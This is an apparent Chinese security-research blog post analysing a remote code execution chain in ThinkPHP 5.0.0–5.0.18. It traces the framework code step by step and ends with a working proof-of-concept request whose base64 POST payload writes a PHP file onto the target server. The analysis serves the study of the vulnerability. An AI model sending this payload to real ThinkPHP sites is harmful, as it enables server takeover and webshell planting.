

@Author：Y4tacker

@Time：2021/04/20

# ThinkPHP5.0.0-5.0.18RCE另类利用姿势

## Trick

比较骚的是我们一直以为php当中`::`只能调用静态方法，但是非静态一定条件下也能成功调用

成功输出123虽然有报错

```php
<?php
class A{
    public $a;
    public function y4tacker(){
        echo 123;
    }
}

A::y4tacker();
```

失败

```php
<?php
class A{
    public $a;
    public function y4tacker(){
        $this->a = '123';
        echo 123;
    }
}

A::y4tacker();
```


## 分析

首先利用点是利用`thinkphp/library/think/Request.php`中的`$value = call_user_func($filter, $value);`来执行任意函数之后我们可以利用`thinkphp/library/think/view/driver/Php.php`当中的`eval('?>' . $content);`实现任意命令执行从而实现Shell的写入

再往上看，我们需要找到调用了`filterValue`方法的地方，在`thinkphp/library/think/Request.php`当中有

```php
if (is_array($data)) {
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            reset($data);
        } else {
            $this->filterValue($data, $name, $filter);
        }
```

并且这个filter参数是由`$filter = $this->getFilter($filter, $default);`获取而来，我们跟踪这个函数

```php
protected function getFilter($filter, $default)
    {
        if (is_null($filter)) {
            $filter = [];
        } else {
            $filter = $filter ?: $this->filter;
            if (is_string($filter) && false === strpos($filter, '/')) {
                $filter = explode(',', $filter);
            } else {
                $filter = (array) $filter;
            }
        }

        $filter[] = $default;
        return $filter;
    }
```

我们可以利用控制filter参数为空返回`$this->filter`，并且这个参数可控，之前的文章就分析过了，这里再简单提一下吧，在Request.php当中的method方法当中，可以控制`$this->method`为`__construct`实现变量覆盖

```
$this->{$this->method}($_POST);
```

因此我们回到正题，首先get传入的`s=captcha&g=implode`是为了设置`dispatch`为method，我们稍微跟一下这个过程的关键步骤

首先调用`self::routeCheck($request, $config);`

之后进入`$result = Route::check($request, $path, $depr, $config['url_domain_deploy']);`


关键是这里，我们跟进


这里返回`_construct`


在这里对`Request`类初始化覆盖赋值


最终返回`$this->method`也就是`GET`,至于为什么非得传他，因为我们需要进入这个方法，所以必须得有路由参数


由于我们需要获取这个captcha路由规则



可以看到这里得到路由route这很重要


我们接着往下跟踪到`checkRule`


由于route路由为`\think\captcha\CaptchaController@index`很明显因此返回method


当然我们不一定使用captcha，其他路由也行，但是captcha在这里是万能的QAQ，毕竟每个TP5都自带了，我们继续返回`APP.php`，跟进


此时参数为


我们继续跟进Request的param


这里参数合并


我们继续跟进


进入Request的input方法也就回到了我们上面说的利用`array_walk_recursive`执行任意类方法了，


他对$data中每一个参数迭代运行$fileter当中的方法


这里面还有一个比较巧妙的地方是`set_error_handler`的使用， `tp5` 默认就调用了 `error_reporting(E_ALL)` ，且有一套内置的错误处理机制。上面预期解也提到了即使报了 `warning` 程序也会中止执行。`set_error_handler()` 函数设置用户自定义的错误处理程序，会绕过标准 PHP 错误处理程序。其他的还有`set_exception_handler()` 函数设置用户自定义的异常处理函数。`register_shutdown_function()` 函数会注册一个会在PHP中止时执行的函数

## POC

```
URL地址
url/public/?s=captcha&g=implode
POST数据
path=PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3k0dGFja2VyLnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOyA/Pg==&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=base64_decode&filter[]=\think\view\driver\Php::Display&method=GET
```

成功写入phpinfo，利用成功

